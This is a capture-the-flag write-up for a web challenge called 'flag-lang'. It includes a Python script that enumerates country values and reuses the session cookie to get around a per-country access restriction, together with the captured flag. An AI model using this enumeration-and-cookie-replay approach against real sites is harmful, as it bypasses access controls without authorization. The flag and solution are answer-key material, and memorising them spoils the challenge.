





# flag-lang

## Overview:

Category: Web

## Description

Do you speak the language of the flags?

flaglang.chall.lac.tf

## Approach

Let's take a gander at the website. 

First thing we see when we visit the website is two flags being displayed with drop down menus.

Taking a look inside the drop down menus we see a list of countries with a odd name at the top `Flagistan`.

Which, I hate to spoil for you, is not a real country. And judging by the name this has something to do with our flag.

Messing around a little bit I came across this:



And from this I took a shot in the dark and thought, we'll maybe one of these countries doesn't have an embargo.

## Attack

Now to test every country -> embargo, i'm going to need a few things.

First order of business was getting a list of the countries.

Opening the source code for the site, I found this interesting JSON data under the name countries:



Using a little bit of javascript in the console I was able to extract a list:



Then using some python I cleaned it up piped the output to this [file](countries.txt).
```c
import json

with open('countries.txt') as file:
    
    countries = json.load(file)
    format = "\n".join(countries)
    print(format)
```

Boom, now we have a file that has each country we need to try.

Now before we write our python script to test each country lets first view what the requests are looking like.

Here is a pair of requests that relate to switching what country you are, and what country you are viewing.



Something very important to notice here is that when you are switching to another country, a cookie is being set.

This is important because when you query to view flagistan as a country, you need that cookie in-order to tell what country you are.



Knowing this let's construct a python script that will allows us to view flagistan as every country and see if there are any that don't have the "embargo" and rather the flag.

```c
import requests

url = "https://flaglang.chall.lac.tf"

with open("countries.txt", "r") as countries:
    for country in countries:
    
        #switching to country, [:-1] to get rid of "\n"
        print(url + "/switch?to=" + country[:-1])
        response = requests.get(url + "/switch?to=" + country[:-1])

        #if successful view as flagistan
        if(response.status_code == 200):
            print(url + "/view?country=Flagistan")
            #cookies are needed to know what country we are viewing as
            view_flagistan = requests.get(url + "/view?country=Flagistan", cookies=response.cookies)
            if "lactf" in view_flagistan.text:
                print(view_flagistan.text)
                exit()
```

Running the script:
```c
$ python script.py    
https://flaglang.chall.lac.tf/switch?to=Flagistan
https://flaglang.chall.lac.tf/switch?to=Afghanistan
https://flaglang.chall.lac.tf/view?country=Flagistan
{"msg":"lactf{n0rw3g7an_y4m7_f4ns_7n_sh4mbl3s}","iso":"FL"}
```

Now unfortunately the challenge had been constructed incorrectly and ended up leaking the flag unintendedly.

Either way, this solution was intended to view `Flagistan` as `Norway`, in which we were supposed to recieve the flag then.

## Flag

lactf{n0rw3g7an_y4m7_f4ns_7n_sh4mbl3s}
